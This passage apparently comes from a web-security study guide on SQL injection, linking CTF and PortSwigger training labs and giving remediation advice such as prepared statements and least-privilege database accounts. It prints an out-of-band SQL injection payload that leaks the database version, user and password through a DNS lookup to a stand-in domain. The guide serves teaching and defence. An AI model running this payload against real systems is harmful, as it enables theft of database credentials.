 ```sql
SELECT load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.', (SELECT+password),'.',example.com\\test.txt'))
```

sends a DNS query to `database_version.database_user.database_password.example.com`, allowing the domain owner to view the database version, username, and password.

*Summarized challenges, the last 4: https://training.olicyber.it/challenges#challenge-356 / https://ctf.cyberchallenge.it/challenges#challenge-13*

*Training: Web category 2 of CyberChallenge. If you don't have access, PortSwigger Academy: https://portswigger.net/web-security/all-labs#:~:text=SQL%20injection*

### Remediation and mitigation
SQL injections can be easily prevented using [prepared statements](https://www.w3schools.com/php/php_mysql_prepared_statements.asp), avoiding stored procedures if you are not absolutely sure of what you are doing and if you couldn't achieve the same with prepared statements (which is unlikely).

Even though doing this is straightforward, mistakes can happen or you might not be working alone. To mitigate risks, it's always good practice to disallow batched queries, remove admin and DBA access from accounts used by applications, and always use a read-only connection unless the opposite is strictly necessary.

*Advanced: Grant access to views instead of tables. Whitelist commands that must be executed for technical service requirements.*

\newpage

